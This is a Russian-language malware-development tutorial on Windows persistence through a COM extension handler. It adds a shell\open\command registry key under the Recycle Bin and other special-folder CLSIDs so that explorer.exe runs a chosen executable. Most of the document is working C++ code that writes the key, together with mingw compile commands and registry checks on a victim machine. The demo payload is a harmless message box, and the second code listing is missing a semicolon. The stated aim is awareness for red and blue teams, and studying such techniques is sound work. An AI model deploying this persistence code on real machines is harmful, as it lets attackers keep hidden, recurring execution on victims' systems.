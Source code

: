 \newpage
\subsection{87. разработка вредоносного ПО: закрепление (persistence) - часть 21. Корзина, Мои документы – обработчик расширения COM. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/85/2023-01-20_00-28.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через модификацию обработчика расширения COM для Корзины.     

### список CLSID

Некоторые специальные папки в операционной системе идентифицируются уникальными строками:      

- `{20d04fe0-3aea-1069-a2d8-08002b30309d}` - Мой компьютер     
- `{450d8fba-ad25-11d0-98a8-0800361b1103}` - Мои документы     
- `{208d2c60-3aea-1069-a2d7-08002b30309d}` - Сетевое окружение     
- `{1f4de370-d627-11d1-ba4f-00a0c91eedba}` - Сетевые компьютеры     
- `{2227a280-3aea-1069-a2de-08002b30309d}` - Принтеры и факсы      
- `{645ff040-5081-101b-9f08-00aa002f954e}` - Корзина       

Добавление подраздела `open\command` к CLSID и добавление нового действия для ключа `shell` приведет к выполнению значения, хранящегося в `\command`.      

### практический пример

Рассмотрим практический пример. Прежде всего, как обычно, создаем "вредоносное" приложение. Для простоты, как обычно, это приложение `meow-meow` messagebox (`hack.cpp`):  

```cpp
/*
hack.cpp
вредоносное приложение для закрепления в Windows
aвтор: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем скрипт закрепления (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\\shell";

  // evil app
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как можно видеть, логика проста.    

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, проверяем реестр:      

```powershell
reg query \
"HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" \
/s
```

![pers](./images/85/2023-01-19_23-39.png){width="80%"}    

Затем компилируем наше "вредоносное" ПО на машине атакующего (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/85/2023-01-19_23-16.png){width="80%"}    

И для проверки корректности пробуем запустить `hack.exe` на машине жертвы (`Windows 10 x64` в моем случае):    

```powershell
.\hack.exe
```

![pers](./images/85/2023-01-19_23-49.png){width="80%"}    

Как можно видеть, наше "вредоносное" ПО работает идеально.    

На следующем шаге просто компилируем скрипт закрепления на машине атакующего:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/85/2023-01-19_23-35.png){width="80%"}    

Наконец, запускаем этот скрипт закрепления на машине жертвы и снова проверяем реестр:     

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" /s
```

![pers](./images/85/2023-01-20_00-19.png){width="80%"}    

Как можно видеть, добавлен подраздел и значение ключа установлено.    

Затем пробуем открыть Корзину:    

![pers](./images/85/2023-01-20_00-25.png){width="80%"}    

![pers](./images/85/2023-01-20_00-25_1.png){width="80%"}    

Если открыть `ProcessExplorer` и посмотреть свойства `hack.exe`:     

![pers](./images/85/2023-01-20_06-59.png){width="80%"}    

Можно заметить, что родительским процессом является `explorer.exe (1680)`.     

Идеально! =^..^=    

### а что насчет других CLSID из списка?    

Я внес небольшое изменение в скрипт закрепления:      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{450d8fba-ad25-11d0-98a8-0800361b1103}\\shell"

  // evil app
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\
      // {450d8fba-ad25-11d0-98a8-0800361b1103}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, 
      // (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}

```

Компилируем и запускаем на машине жертвы:      

```powershell
.\pers.exe
reg query \
"HKLM\SOFTWARE\Classes\CLSID\
{450d8fba-ad25-11d0-98a8-0800361b1103}\shell" /s
```

![pers](./images/85/2023-01-20_07-09.png){width="80%"}    

Но... Не работает у меня в Windows 10, так как используется это дурацкое меню "Пуск", и я не могу найти папку `Мои документы` на рабочем столе.    

Я также попробовал этот трюк с другим CLSID на машине `Windows 7 x86`. Он сработал для папки `Мой компьютер`.     

![pers](./images/85/2023-01-20_07-22.png){width="80%"}    

![pers](./images/85/2023-01-20_07-35.png){width="80%"}    

Я не знаю, использует ли этот трюк какая-либо APT-группа или семейство вредоносного ПО.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-01-20-malware-pers-21)     
